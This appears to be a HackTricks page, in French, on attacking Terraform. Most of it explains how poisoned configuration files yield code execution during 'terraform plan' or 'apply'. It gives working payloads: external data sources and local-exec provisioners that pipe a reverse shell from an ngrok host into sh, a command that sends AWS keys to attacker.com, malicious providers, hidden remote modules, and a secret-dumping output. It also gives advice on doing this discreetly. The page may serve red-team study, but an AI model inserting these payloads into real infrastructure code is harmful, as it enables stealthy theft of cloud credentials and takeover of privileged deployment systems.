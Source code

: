 # Sécurité Terraform

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de base

HashiCorp Terraform est un **outil d'infrastructure en tant que code** qui vous permet de définir à la fois des **ressources cloud et sur site** dans des fichiers de configuration lisibles par l'homme que vous pouvez versionner, réutiliser et partager. Vous pouvez ensuite utiliser un workflow cohérent pour provisionner et gérer toute votre infrastructure tout au long de son cycle de vie. Terraform peut gérer des composants de bas niveau comme le calcul, le stockage et les ressources réseau, ainsi que des composants de haut niveau comme les entrées DNS et les fonctionnalités SaaS.

### Comment fonctionne Terraform ?

Terraform crée et gère des ressources sur des plateformes cloud et d'autres services via leurs interfaces de programmation d'applications (API). Les fournisseurs permettent à Terraform de fonctionner avec pratiquement n'importe quelle plateforme ou service disposant d'une API accessible.

![](<../.gitbook/assets/image (33).png>)

HashiCorp et la communauté Terraform ont déjà écrit **plus de 1700 fournisseurs** pour gérer des milliers de types de ressources et de services différents, et ce nombre continue de croître. Vous pouvez trouver tous les fournisseurs disponibles publiquement sur le [Registre Terraform](https://registry.terraform.io/), y compris Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog, et bien d'autres.

Le workflow principal de Terraform se compose de trois étapes :

* **Écrire :** Vous définissez des ressources, qui peuvent être réparties sur plusieurs fournisseurs de cloud et services. Par exemple, vous pourriez créer une configuration pour déployer une application sur des machines virtuelles dans un réseau Virtual Private Cloud (VPC) avec des groupes de sécurité et un équilibreur de charge.
* **Planifier :** Terraform crée un plan d'exécution décrivant l'infrastructure qu'il va créer, mettre à jour ou détruire en fonction de l'infrastructure existante et de votre configuration.
* **Appliquer :** Sur approbation, Terraform effectue les opérations proposées dans l'ordre correct, en respectant toutes les dépendances des ressources. Par exemple, si vous mettez à jour les propriétés d'un VPC et changez le nombre de machines virtuelles dans ce VPC, Terraform recréera le VPC avant de redimensionner les machines virtuelles.

![](<../.gitbook/assets/image (81).png>)

### Terraform Enterprise

Terraform Enterprise vous permet d'**exécuter des commandes** telles que `terraform plan` ou `terraform apply` à distance dans une **version auto-hébergée de Terraform Cloud**. Par conséquent, si vous trouvez la **clé API** pour accéder à ce serveur Terraform, vous pouvez le **compromettre**.\
Pour plus d'informations, consultez :

{% content-ref url="broken-reference" %}
[Lien brisé](broken-reference)
{% endcontent-ref %}

## Lab Terraform

Installez simplement terraform sur votre ordinateur.

Voici un [guide](https://learn.hashicorp.com/tutorials/terraform/install-cli) et ici la [meilleure façon de télécharger terraform](https://www.terraform.io/downloads).

## RCE dans Terraform

Terraform **n'a pas de plateforme exposant une page web ou un service réseau** que nous pouvons énumérer, donc, la seule façon de compromettre terraform est de **pouvoir ajouter/modifier des fichiers de configuration terraform**.

Cependant, terraform est un **composant très sensible** à compromettre car il aura un **accès privilégié** à différents emplacements pour pouvoir fonctionner correctement.

La principale façon pour un attaquant de pouvoir compromettre le système où terraform est exécuté est de **compromettre le dépôt qui stocke les configurations terraform**, car à un moment donné, elles vont être **interprétées**.

En fait, il existe des solutions qui **exécutent terraform plan/apply automatiquement après la création d'une PR**, telles que **Atlantis** :

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Si vous parvenez à compromettre un fichier terraform, il existe différentes manières d'effectuer un RCE lorsque quelqu'un exécute `terraform plan` ou `terraform apply`.

### Terraform plan

Terraform plan est la **commande la plus utilisée** dans terraform et les développeurs/solutions utilisant terraform l'appellent tout le temps, donc la **manière la plus simple d'obtenir un RCE** est de s'assurer que vous empoisonnez un fichier de configuration terraform qui exécutera des commandes arbitraires lors d'un `terraform plan`.

#### Utilisation d'un fournisseur externe

Terraform propose le [`fournisseur externe`](https://registry.terraform.io/providers/hashicorp/external/latest/docs) qui offre un moyen d'interfacer entre Terraform et des programmes externes. Vous pouvez utiliser la source de données `external` pour exécuter du code arbitraire pendant un `plan`.
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Utilisation d'un fournisseur personnalisé

N'importe qui peut écrire un [fournisseur personnalisé](https://learn.hashicorp.com/tutorials/terraform/provider-setup) et le publier sur le [Registre Terraform](https://registry.terraform.io/). Vous pouvez également essayer de récupérer un fournisseur personnalisé à partir d'un registre privé.

Voilà comment faire :

* écrire un fournisseur personnalisé qui exécute du code malveillant (comme l'exfiltration de données d'identification ou de données clients)
* le publier sur le Registre Terraform
* ajouter le fournisseur au code Terraform dans une branche de fonctionnalité
* ouvrir une PR pour la branche de fonctionnalité
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Étant donné que le fournisseur sera intégré pendant l'`init` et exécutera du code pendant le `plan`, vous avez une exécution de code arbitraire.

Vous pouvez trouver un exemple sur [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Utilisation d'une référence externe

Les deux options mentionnées sont utiles mais pas très discrètes (la seconde est plus discrète mais plus complexe que la première). Vous pouvez réaliser cette attaque de manière encore plus **discrète**, en suivant ces suggestions :

* Au lieu d'ajouter le rev shell directement dans le fichier terraform, vous pouvez **charger une ressource externe** qui contient le rev shell :
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Vous pouvez trouver le code rev shell sur [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Dans la ressource externe, utilisez la fonctionnalité **ref** pour masquer **le code terraform rev shell dans une branche** à l'intérieur du dépôt, quelque chose comme : `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply sera exécuté pour appliquer tous les changements, vous pouvez également en abuser pour obtenir un RCE en injectant **un fichier Terraform malveillant avec** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
\*\*\*\*Vous devez juste vous assurer qu'un payload comme les suivants se retrouve dans le fichier `main.tf` :
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Suivez les **suggestions de la technique précédente** pour réaliser cette attaque de manière **plus discrète en utilisant des références externes**.

## Secrets Dumps

Vous pouvez obtenir un **dump des valeurs secrètes utilisées par terraform** en exécutant `terraform apply` en ajoutant au fichier terraform quelque chose comme :
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Outils d'Audit

* [**tfsec**](https://github.com/aquasecurity/tfsec) : tfsec utilise l'analyse statique de votre code terraform pour détecter d'éventuelles mauvaises configurations.
* [**terascan**](https://github.com/tenable/terrascan) : Terrascan est un analyseur de code statique pour l'Infrastructure as Code.

## Références

* [Sécurité Atlantis](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
